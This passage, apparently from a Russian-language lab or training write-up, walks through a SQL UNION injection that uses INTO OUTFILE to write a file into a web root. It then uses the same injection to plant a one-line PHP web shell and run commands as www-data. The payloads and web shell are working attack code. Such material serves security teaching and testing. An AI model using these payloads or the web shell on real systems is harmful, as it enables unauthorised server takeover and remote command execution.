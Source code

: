 Полезная нагрузка для `UNION`-инъекции будет выглядеть следующим образом:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
![[Pasted image 20250920211755.png]]

Мы не видим никаких ошибок на странице, что говорит о том, что запрос выполнен успешно. Проверив файл `proof.txt` в webroot, мы видим, что он действительно существует:
![[Pasted image 20250920211832.png]]

>[!Note]
>Мы видим строку, которую мы сбросили, вместе с '1', '3' перед ней и '4' после нее. Это связано с тем, что весь результат запроса 'UNION' был записан в файл. Чтобы сделать вывод чище, мы можем использовать "" вместо цифр.

---

## Написание веб-оболочки

Подтвердив права на запись, мы можем пойти дальше и написать веб-оболочку PHP в папку webroot. Мы можем написать следующий веб-шелл PHP, чтобы иметь возможность выполнять команды непосредственно на внутреннем сервере:
```php
<?php system($_REQUEST[0]); ?>
```

Мы можем повторно использовать нашу предыдущую полезную нагрузку для `UNION` инъекции и изменить строку на приведенную выше, а имя файла на `shell.php`:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
![[Pasted image 20250920211925.png]]

Опять же, мы не видим никаких ошибок, а это значит, что запись файла, вероятно, сработала. Это можно проверить, перейдя к файлу `/shell.php` и выполнив команды с помощью параметра `0`, в нашем URL-адресе `?0=id`:
![[Pasted image 20250920212142.png]]

Вывод команды `id` подтверждает, что у нас выполнен код и мы работаем от имени пользователя `www-data`.